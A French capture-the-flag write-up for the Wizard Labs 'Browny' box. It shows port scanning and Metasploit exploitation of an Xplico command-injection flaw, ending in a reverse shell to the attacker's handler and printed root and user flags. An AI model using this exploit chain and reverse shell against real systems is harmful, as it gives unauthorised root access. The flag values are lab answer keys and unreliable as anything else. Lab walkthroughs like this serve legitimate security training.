 ```yaml
---
title: Solution du CTF Browny de Wizard-Labs
date: 2019-05-21 18:05:00
tags: [CTF, WizardLabs]
---
```


Chocoooooo
----------

*Browny* est un CTF de la plateforme *Wizard Labs*. Cette box donnée à une difficulté très faible (1/10) est basée sur Linux.  

On peut lancer un masscan pour lister les ports en écoute :  

```console
$ sudo masscan -i tun0 -p1-65535 --rate 100 10.1.1.17

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-23 14:32:37 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.1.1.17                                       
Discovered open port 9876/tcp on 10.1.1.17                                     
Discovered open port 30005/tcp on 10.1.1.17                                    
Discovered open port 30001/tcp on 10.1.1.17                                    
Discovered open port 22/tcp on 10.1.1.17                                       
Discovered open port 30004/tcp on 10.1.1.17                                    
Discovered open port 30003/tcp on 10.1.1.17                                    
Discovered open port 30002/tcp on 10.1.1.17
```

On peut ensuite récupérer cet output pour extraire la liste des ports et les rebalancer avec Nmap. La commande suite va formater cette liste de ports en les séparant avec des virgules :  

```console
$ grep Disco output.txt | cut -d' ' -f4| cut -d/ -f1 |paste -d ',' -s
80,9876,30005,30001,22,30004,30003,30002
```

En fouillant sur le port 80 avec un dirbuster on ne découvre ni dossier ni script PHP :(  

En revanche le service en écoute sur le port 9876, anoncé par Nmap comme un *Apache Hadoop* est en réalité un [Xplico](https://www.xplico.org/) qui est une appli web pour l'analyse forensics réseau.  

On passe ainsi un fichier PCAP et on peut l'explorer via *Xplico*. J'avais déjà utilisé ce soft qui est assez agréable d'utilisation.  

Bien sûr ici on est principalement intéressés par les vulnérabilités du logiciel plutôt que ses fonctionnalités.  

Metasploit dispose d'un module d'attaque dont voici la description et les payloads possibles :  

```
Description:
  This module exploits command injection vulnerability. 
  Unauthenticated users can register a new account and then execute a 
  terminal command under the context of the root user. The specific 
  flaw exists within the Xplico, which listens on TCP port 9876 by 
  default.

Compatible Payloads
===================

   Name                     Disclosure Date  Rank    Check  Description
   ----                     ---------------  ----    -----  -----------
   cmd/unix/bind_awk                         normal  No     Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_netcat                      normal  No     Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/generic                          normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse_awk                      normal  No     Unix Command Shell, Reverse TCP (via AWK)
   cmd/unix/reverse_netcat                   normal  No     Unix Command Shell, Reverse TCP (via netcat)
```

L'exploitation n'a pas été à la hauteur de nos espérances :  

```
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: metnhsrpiveb
[*] Password: igMHipqNbEwaFoBVDqYFPXXQbEkIBCZV
[*] Calculating em_key code of the user
[*] Activating user with em_key = 3ad86d0ada1f91ab6357ca774ad0c2bf
[-] Exploit aborted due to failure: unknown: Could not activated our user. Target may not be vulnerable.
[*] Exploit completed, but no session was created.
```

Il est temps de ce pencher plus sur les détails de la vulnérabilité pour déterminer ce qui cloche.  

[L'article original](https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/) traitant de la faille mentionne une variable qu'il faut plus ou moins deviner car elle correspond au temps Unix et est utilisée pour réussir l'exploitation.  

L'exploit utilise donc le temps qu'il croit être juste... en gros il faut que toute l'exploitation se fasse dans une fenêtre d'une seconde pour ne pas être embêté :p  

Du coup c'est principalement le manque de chance... bref on relance jusqu'à ce que...  

```
[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: svfzydcg
[*] Password: apywpCMpmUjHBHhHnHRzIAMuNJNggYWZ
[*] Calculating em_key code of the user
[*] Activating user with em_key = 2edb880cb905936ab894e54db23abe18
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 7
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 7
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[*] Exploit completed, but no session was created.
```

C'est mieux mais ça n'aboutit toujours pas. Il s'est avéré que l'upload des fichiers ne fonctionnait plus sur la machine pour une raison inconnue. Un reset de la machine plus tard :  

```
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: qvxtanwgruta
[*] Password: KjixXsyUFbhjRiBSITzWbDjciGBsJrOP
[*] Calculating em_key code of the user
[*] Activating user with em_key = 027c6641ad1e36ebddf3ee5cb384e6a7
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 5
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 5
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (10.254.0.29:4444 -> 10.1.1.17:57091) at 2019-02-23 16:33:59 +0100

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/xplico/bin
cd /root
ls
root.txt
cat root.txt
02240138a64d38ed22526a4a0f1ea9a1
ls /home
granit
cd /home/granit
cat user.txt
c553f25184be6a0e81be6cfc000d5b20
```

CTF parfait pour le 4h.  


*Published May 21 2019 at 18:05*
